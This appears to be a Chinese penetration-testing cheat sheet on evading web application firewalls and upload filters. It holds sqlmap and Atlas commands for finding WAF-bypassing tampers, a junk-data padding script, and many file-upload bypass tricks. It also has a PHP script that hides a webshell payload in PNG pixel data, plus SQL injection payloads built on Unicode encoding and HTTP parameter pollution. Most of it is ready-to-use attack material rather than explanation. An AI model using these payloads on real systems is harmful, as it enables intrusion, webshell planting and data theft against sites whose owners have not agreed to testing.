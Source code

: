   #### SQL注入分块传输
	https://github.com/c0ny1/chunked-coding-converter
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/25.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/26.png)

	跑注入点被拦截
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/27.png)

	使用分块传输，右键选择
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/28.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/30.png)

	使用SQLMAP跑注入
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/31.png)
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/32.png)

	>python sqlmap.py -r 1.txt --batch --proxy=http://127.0.0.1:8080 --dbs
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/33.png)
  #### 自动提供可用的tamper
	https://github.com/m4ll0k/Atlas
	GET类型的注入
	python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	POST类型的注入
	python atlas.py --url http://site.com/index/id/ -m POST -D 'test=%%10%%' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	请求头注入
	python atlas.py --url http://site.com/index/id/ -H 'User-Agent: mozilla/5.0%%inject%%' -H 'X-header: test' --payload="-1234 AND 4321=4321-- AAAA" --random-agent -v
	组合tamper
	python atlas.py --url http://site.com/index/id/%%10%% --payload="-1234 AND 4321=4321-- AAAA" --concat "equaltolike,htmlencode" --random-agent -v
	列出tamper
	python atlas.py -g
	例子
	注入
	python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/658.png)

	可以看到被拦截了
	查找能绕过的tamper
	python atlas.py --url 'http://site.com/index.php?id=Price_ASC' --payload="') AND 8716=4837 AND ('yajr'='yajr" --random-agent -v
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/659.png)

	根据返回码200得到一个可绕过waf的tamper
	versionedkeywords这个tamper
	继续注入
	python sqlmap.py -u 'http://site.com/index.php?id=Price_ASC' --dbs --random-agent -v 3 --tamper=versionedkeywords
	根据状态码来判断有时会有点鸡肋，但是也能用用，随机发挥吧。
  #### 垃圾数据
	#coding=utf-8
	import random,string
	from urllib import parse
	# code by yzddMr6
	varname_min = 5
	varname_max = 15
	data_min = 20
	data_max = 25
	num_min = 50
	num_max = 100
	def randstr(length):
		str_list = [random.choice(string.ascii_letters) for i in range(length)]
		random_str = ''.join(str_list)
		return random_str
	def main():
		data={}
		for i in range(num_min,num_max):
			data[randstr(random.randint(varname_min,varname_max))]=randstr(random.randint(data_min,data_max))
		print('&'+parse.urlencode(data)+'&')
	main()
	放到要注入的字段前后
  #### 上传bypass
    	图片文件头
	PNG 的文件头为十六进制的 89 50 4E 47 0D 0A 1A 0A
	GIF 为 47 49 46 38 37 61
	JPG 为 FF D8 FF E0
    	添加图片头或合并图片包含
    	后缀大小写
    	文件名前缀加[0x09]
    	上传.htaccess
		SetHandler application/x-httpd-php
    	二次渲染
		GIF
		找好一个大一点的GIF，尾部使用c32插入shell，上传，下载回来，使用burp的comparer功能找出整个文件没有被渲染的位置，插入shell再上传
		JPG
		使用脚本直接生成
		https://github.com/BlackFan/jpg_payload
		PNG
		使用脚本直接生成
		先取消php.ini注释;extension=php_gd2.dll
```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
0x66, 0x44, 0x50, 0x33);
$img = imagecreatetruecolor(32, 32);
for ($y = 0; $y < sizeof($p); $y += 3) {
	$r = $p[$y];
	$g = $p[$y+1];
	$b = $p[$y+2];
	$color = imagecolorallocate($img, $r, $g, $b);
	imagesetpixel($img, round($y / 3), 0, $color);
}
imagepng($img,'./1.png');
?>
```
    	上传php3,php4,phtml等
    	文件名后加::$DATA
	ConTent-Disposition: form-data; name="filepath"; filename="1.asp::$DATA"
	ConTent-Disposition: form-data; name="filepath"; filename="1.asp::$DATA\0x00\1.asp0x00.jpg"
    	asp . (空格+.)
    	php. .(点+空格+点)
    	双写phphpp
    	00截断
	Get参数00截断直接添加%00
	POST参数00截断修改hex为00
    	修改一些固定的参数
    	文件名去掉双引号
    	加一个filename1的参数
    	form变量改成f+orm
    	去掉form-data
    	在Content-Disposition或form-data;后添加多个空格
    	引号回车
	ConTent-Disposition: form-data; name="filepath"; filename="backlion.asp
	"
    	Content-Type和ConTent-Disposition调换位置
    	文件名前缀加空格
	filename=    "1.asp"
    	name前加空格
	Content-Disposition: form-data;      name="uploaded"; filename="1.asp"
    	form-data的前后加上+
	Content-Disposition: +form-data; name="filepath"; filename="1.asp"
    	* ASP+IIS
	s%elect>select
	s%u0065lect>select  
	s%u00f0lect>select
	s%u0045lect = s%u0065lect = %u00f0lect
	u -->%u0055 --> %u0075
	n -->%u004e --> %u006e
	i -->%u0049 --> %u0069
	o -->%u004f --> %u006f -->%u00ba
	s -->%u0053 --> %u0073
	l -->%u004c --> %u006c
	e -->%u0045 --> %u0065-->%u00f0
	c -->%u0043 --> %u0063
	t -->%u0054 -->%u0074 -->%u00de -->%u00fe
	f -->%u0046 -->%u0066
	r -->%u0052 -->%u0072
	m -->%u004d -->%u006d
    	Asp+iis&aspx+iis
	s%u006c%u0006ect>select
    	* apache
	TEST /sql.php?id=1 HTTP/1.1
    	* 大小写/关键字
	UniOn SeLECT
	Mid()substring() ? substr()
	Hex()?ascii()
	sleep() =benchmark()
	concat_ws()=group_concat()
    	双重url编码
    	变换请求方式
    	HPP参数污染
	id=1&id=2&id=3
	得到的结果：Asp.net + iis：id=1,2,3 
	Asp+iis：id=1,2,3 
	Php+apache：id=3
	MSSQL:
	GET+POST: 
	GET:http://192.168.125.140/test/sql.aspx?id=1 union/*
	post:  id=2*/select null,null,null
	无逗号形式：
	?id=1 union select 1&id=2&id=3&id=4 from admin--（）  
	利用逗号：
	?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--
	无效参数形式：
	?a=/*&sql=xxx&b=*/  a,b为无效参数
	溢出形式：?id=1/*&id=*//*&id=*//*......&id=*//*&id=*/ union  select null,system_user,null from INFORMATION_SCHEMA.schemata
	MYSQL：
	?id=1&id=1&id=1&id=1&id=1&id=1&id=1&id=….. &id=1 union select 1,2 from admin